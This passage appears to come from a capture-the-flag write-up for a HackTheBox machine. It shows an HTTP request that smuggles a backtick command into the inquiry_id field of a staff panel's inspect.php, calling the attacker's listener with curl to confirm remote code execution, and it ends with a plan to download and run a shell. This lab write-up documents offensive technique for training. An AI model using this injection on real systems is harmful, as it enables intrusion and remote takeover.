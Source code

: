 Visiting the link would refer us to the `dashboard.php`:

<figure><img src="../../.gitbook/assets/image (297).png" alt=""><figcaption></figcaption></figure>

Great! We have logged in. Earlier, we found an RCE in the `inquiry_id` parameter, so let's exploit that.

```http
POST /inspect.php HTTP/1.1
Host: staff-review-panel.mailroom.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://staff-review-panel.mailroom.htb
Connection: close
Referer: http://staff-review-panel.mailroom.htb/inspect.php
Cookie: PHPSESSID=258a0de5b6d723eaa26caa846646bb36
Upgrade-Insecure-Requests: 1



inquiry_id=`curl+10.10.16.31:1234/rcecfmed`
```

```
$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.129.61.100 - - [18/Apr/2023 00:08:29] code 404, message File not found
10.129.61.100 - - [18/Apr/2023 00:08:29] "GET /rcecfmed HTTP/1.1" 404 -
```

Great! Now we can simply download a shell and execute it.
